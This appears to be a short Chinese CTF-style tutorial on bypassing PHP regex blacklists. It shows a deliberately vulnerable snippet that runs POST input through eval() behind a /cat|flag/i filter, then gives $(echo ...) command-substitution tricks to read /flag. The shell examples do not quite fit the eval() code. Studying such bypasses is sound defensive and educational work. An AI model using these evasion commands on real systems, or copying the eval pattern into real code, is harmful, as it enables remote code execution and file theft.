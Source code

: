 ```yaml
---
title: 'PHP 正则表达式的绕过'
date: '2025-04-23T19:58:08+08:00'
weight: 
draft: false
description: 'PHP 正则表达式的绕过'
---
```


### 示例一

```php
$cmd = $_POST['cmd'];
if (preg_match("/cat|flag/i", $cmd)) {
    die("u can not do this ");
}
echo eval($cmd);
```

**代码审计：**
- 从 HTTP 请求的 POST 方法获取数据，并将名为 `cmd` 的字段的值赋给变量 `$cmd`
- 使用正则表达式匹配 `$cmd` 中的 `cat` 和 `flag`，修饰符 `i`（case-insensitive）表示不区分大小写
- 如果匹配成功就终止脚本执行，并输出消息 `"u can not do this "`
- 如果匹配失败就使用 `eval($cmd)` 执行 PHP 代码，并输出执行结果

**需求：**
1. 查找 `flag` 文件位置：`find / -iname flag`
2. 查看 `falg` 文件内容：`cat /flag`

**解决方法：** `$(command)` 命令替换

`$(...)` 是 Shell 中命令替换的语法，它允许在一个命令中执行另一个命令，并将该命令的输出作为结果返回嵌入到其他命令中

```shell
find / -iname fla$(echo g)
ca$(echo t) /fla$(echo g)
```